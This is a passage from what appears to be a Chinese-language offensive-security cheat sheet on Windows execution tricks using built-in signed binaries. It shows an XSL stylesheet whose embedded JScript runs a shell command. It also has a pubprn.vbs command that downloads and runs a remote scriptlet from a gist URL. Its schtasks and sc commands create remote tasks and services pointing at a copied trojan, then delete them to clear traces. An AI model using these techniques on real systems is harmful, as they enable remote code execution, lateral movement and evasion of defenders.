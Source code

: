 exec.xsl
```xml
<?xml version='1.0'?>
<xsl:stylesheet version="1.0"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:msxsl="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace">

<msxsl:script language="JScript" implements-prefix="user">
   function xml(nodelist) {
var r = new ActiveXObject("WScript.Shell").Run("cmd /c calc.exe");
   return nodelist.nextNode().xml;

   }
</msxsl:script>
<xsl:template match="/">
   <xsl:value-of select="user:xml(.)"/>
</xsl:template>
</xsl:stylesheet>
```

### pubprn.vbs

在 Windows 7 以上版本存在一个名为 PubPrn.vbs 的微软已签名 WSH 脚本，其位于`C:\Windows\System32\Printing_Admin_Scripts\en-US`，仔细观察该脚本可以发现其显然是由用户提供输入（通过命令行参数），之后再将参数传递给 GetObject()

```bash
"C:\Windows\System32\Printing_Admin_Scripts\zh-CN\pubprn.vbs" 127.0.0.1 script:https://gist.githubusercontent.com/enigma0x3/64adf8ba99d4485c478b67e03ae6b04a/raw/a006a47e4075785016a62f7e5170ef36f5247cdb/test.sct
```

### conhost

```bash
conhost calc.exe
```

### schtasks

```bash
schtasks /create /tn foobar /tr c:\windows\temp\foobar.exe
/sc once /st 00:00 /S host /RU System schtasks /run /tn foobar /S host
schtasks /F /delete /tn foobar /S host                          # 清除 schtasks
```

### SC

```bash
sc \\host create foobar binpath=“c:\windows\temp\foobar.exe”    # 新建服务,指向拷贝的木马路径
sc \\host start foobar                                          # 启动建立的服务
sc \\host delete foobar                                         # 完事后删除服务
```

### forfiles
